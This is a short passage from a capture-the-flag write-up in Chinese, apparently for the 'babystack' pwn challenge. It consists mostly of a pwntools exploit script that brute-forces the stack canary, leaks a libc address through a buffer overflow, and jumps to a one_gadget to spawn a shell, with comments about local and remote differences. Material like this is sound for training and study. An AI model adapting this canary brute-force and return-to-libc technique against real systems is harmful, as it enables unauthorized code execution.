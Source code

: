 ```py
    login(payload)
    copy('a'*0x3f)
canary=brute_with_prefix(16)
overflow((b'\x00'.ljust(64,b'a')+canary).ljust(0x58,b'a')) #在我的环境下这步会把栈上遗留的libc指针拷贝到密码buffer里（然而远程的栈上似乎不存在这个指针，或者偏移不对）
login()
prefix=canary+b'1\naaaaaa\xb4\xff' #调试得到的。后两个字节是固定的，加快爆破进程
libc.address=u64(b'\xb4\xff'+brute_with_prefix(4,prefix)+b'\x00\x00')-libc.sym['setvbuf']-324
overflow((b'\x00'.ljust(64,b'a')+canary).ljust(0x68,b'a')+p64(libc.address+0x45216))
p.sendlineafter("> ",'2')
p.interactive()
```
我不想调远程了。这玩意远程运行一次要非常久，可谓摧毁心态的利器。参考佬的脚本： https://milandonhowe.github.io/writeups/2023/05/24/pwnable_babystack